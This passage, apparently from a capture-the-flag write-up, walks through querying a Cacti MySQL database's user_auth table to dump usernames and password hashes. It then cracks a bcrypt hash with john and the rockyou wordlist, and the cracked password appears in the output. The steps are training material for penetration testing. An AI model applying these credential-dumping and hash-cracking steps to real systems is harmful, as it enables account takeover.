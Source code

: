 We identify the `user_auth` table as interesting and check its structure:
```bash
describe user_auth;
```

```bash
MySQL [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| username               | varchar(50)           | NO   |     |         |                |
| password               | varchar(256)          | NO   |     |         |                |
------------------------------------MORE----------------------------------------
+------------------------+-----------------------+------+-----+---------+----------------+
```

To view the usernames and passwords, we run:
```bash
select username,password from user_auth;
```

```bash
MySQL [cacti]> select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```

We see different hashes. Let's decrypt these hashes.

### DECRYPTION OF HASHES
---
To decrypt these hashes, we can use two tools: `john` and `hashcat`. In my case, I will use the first one because it is much faster for `bcrypt` hashes.

First, we save the hashes in a file called `hashes.txt`.

```bash
nano hashes.txt
```

We save them and now proceed to decrypt them using `john` by executing the following command:

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```bash
❯ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:42 0.05% (ETA: 2025-02-28 21:28) 0g/s 193.4p/s 193.4c/s 193.4C/s 666777..danni
funkymonkey      (?)     
1g 0:00:00:43 DONE (2025-02-27 20:34) 0.02273g/s 193.9p/s 193.9c/s 193.9C/s 474747..coucou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
